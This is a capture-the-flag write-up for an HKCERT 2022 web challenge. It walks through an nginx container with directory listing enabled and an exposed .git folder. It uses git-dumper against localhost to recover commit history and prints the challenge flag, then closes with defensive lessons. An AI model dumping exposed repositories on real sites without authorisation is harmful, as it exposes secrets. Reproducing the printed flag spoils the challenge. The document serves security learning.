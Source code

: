 

Name : Wai Han
Challenge One

---


# Exploration

* Assets inside the repo
    * Dockerfile, docker-compose.yml, nginx.conf.
    * html.tgz -> unpacked into /var/www in container.

* Maps port 8081:8080
* Adds html.tgz to /var/www
* Copies custom nginx.conf
* Serves from /var/www/html (root directory)
* Listens on port 8080
* Has autoindex enabled **
* Custom logging format with timing info

** indicates the initial guess for an opportunity to find the flag.

---

## Understanding `nginx.conf`

`nginx.conf` is the main configuration file for Nginx, a high-performance web server and reverse proxy. It controls how Nginx behaves.

```nginx
# Example File
user  nginx;
worker_processes  auto;

# Logging
error_log  /var/log/nginx/error.log warn;
pid        /var/run/nginx.pid;

# Events block
events {
    worker_connections 1024;
}

# HTTP block
http {
    include       mime.types;
    default_type  application/octet-stream;

    sendfile        on;
    keepalive_timeout  65;

    # Server block
    server {
        listen       80;
        server_name  example.com;

        location / {
            root   /usr/share/nginx/html;
            index  index.html index.htm;
        }
    }
}
```

---

## What's html.tgz file?

It's a compressed archive (tar + gzip) containing a directory of HTML files (and possibly CSS, JS, etc.).

In our case:
```css
html/
  index.html
  img/
```

So, essentially, this is a compressed file of a website.

---

## Initial Understanding

- This is a custom Nginx container (default is overriden by `nginx.conf` file).
- Serves content from a directory that was archived into `html.tgz`?
- My guess is that there might be something wrong / vulnerable in the `nginx.conf` file since it is a configuration file that sets the nginx server. 
- I asked GPT4.0 to analyze the `nginx.conf` file and `autoindex on` seems to be the major issue.
    *  `autoindex on`; — Directory Listing Enabled
    * What it does: Automatically generates and displays an index of files in a directory if no index file is present.
    * Why it’s risky: Exposes sensitive files or directory structure (e.g., .env, config.yaml, backups).

--- 

## Action Plan 

1. Run the Docker Container                             (OK)
2. Access the web service on port 8081                  (OK)
3. Check for directory listings (autoindex)             (Just get index.html; com.png gives 403).
4. Examine container contents                           (OK; go to container bash and find the files for a potential flag)
5. Look for hidden files/directories                    (OK)
6. Check logs for sensitive data                        (OK)
7. Check for common CTF hiding spots                    (OK)
8. Check for exposed .git/ → dump repo history          (Solution Found)
    Find flag across commits / hidden files

<small>"OK" here just means that I did it but didn't end up being very useful in the final exploit (at least not directly).</small>

---

## Trying to find Solution

1. curl http://localhost:8081/ just gives index.html file. Couldn't find the flag here.
2. curl http://localhost:8081/img/ returns
```
<html>
<head><title>Index of /img/</title></head>
<body>
<h1>Index of /img/</h1><hr><pre><a href="../">../</a>
<a href="com.png">com.png</a>                                            21-Oct-2022 05:17               27052
<a href="door.png">door.png</a>                                           21-Oct-2022 13:36               75852
</pre><hr></body>
</html>
```

3. `com.png` file is never used in the `index.html` file. It's suspicious and the solution might be in there. When I try `curl http://localhost:8081/img/com.png`, I get 403 Forbidden.

4. Try using exiftool in case there's a flag in the metadata.

```
ExifTool Version Number         : 13.30
File Name                       : com.png
Directory                       : .
File Size                       : 27 kB
File Modification Date/Time     : 2022:10:20 22:17:34-07:00
File Access Date/Time           : 2025:06:26 16:08:37-07:00
File Inode Change Date/Time     : 2025:06:26 15:31:16-07:00
File Permissions                : -rw-------
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 1920
Image Height                    : 1080
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Pixels Per Unit X               : 2834
Pixels Per Unit Y               : 2834
Pixel Units                     : meters
Image Size                      : 1920x1080
Megapixels                      : 2.1
```

5. Also notice that .git is exposed 

6. Download the repo: `git-dumper http://localhost:8081/.git/ dumped_repo/`. 

7. `com.png` is again not in the git repo. Manually placed after? 

8. Ok. Goes through the previous commits of the .git that I just downloaded. Finally found the flag! `git show $(cat .git/ORIG_HEAD)`.

```
commit 4ba53800ea4f1f8e433e16c5c37a2be52a961838
Author: Holland Wan <noreply@noreply.com>
Date:   Fri Oct 21 22:47:51 2022 +0800

    What is this?

diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..54c849b
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1 @@
+hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
diff --git a/index.html b/index.html
deleted file mode 100644
index 98fa7c2..0000000
--- a/index.html
+++ /dev/null
```


## Takeaway

Revise: The exposed `.git` led us to recover the entire repository history and find the flag in a previous commit.

Lesson: The `com.png` with 403 permission was probably a red herring and I got distracted. I should have checked the git logs first.

## Exploit / Solution

```
git show $(cat .git/ORIG_HEAD)
```

## Flag

```
hkcert22{n0stalgic_w3bs1t3_br1ings_m3_b4ck_to_2000}
```

## Lessons Learned

* Remove `.git` folder from the container image
* `autoindex off`
* Don't commit secrets to git. Use `.env`, `.gitignore`
